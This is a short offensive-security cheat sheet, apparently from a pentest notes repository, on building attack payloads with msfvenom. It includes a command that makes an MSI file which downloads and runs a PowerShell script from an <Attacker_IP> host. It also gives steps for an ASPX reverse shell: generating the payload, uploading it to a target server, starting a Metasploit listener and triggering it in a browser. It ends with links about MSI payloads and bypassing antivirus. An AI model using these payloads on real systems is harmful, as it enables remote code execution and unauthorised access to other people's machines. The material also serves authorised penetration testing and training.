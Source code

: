 # Generating Attack Payload

## MSI Reverse Shell for [Covenant](https://github.com/cobbr/Covenant)

    msfvenom -p windows/x64/exec CMD="cmd /c powershell iex(new-object net.webclient).downloadstring('http://<Attacker_IP>/shell.ps1')" -f msi > pwn.msi

## ASPX Reverse Shell

1. Generate payload

        msfvenom -p windows/shell/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx -o pwn.aspx    

2. Upload the payload to the target server
3. Start a listener. Use Metasploit `exploit/multi/handler/` module with payload set to `windows/shell/reverse_tcp`
4. Naviagate to malicious ASPX page in the browser window to trigger the payload and to receive the reverse shell

## References

**Listener:**

* https://pentestlab.blog/tag/msi/
* https://blog.netspi.com/bypassing-anti-virus-with-metasploit-msi-files/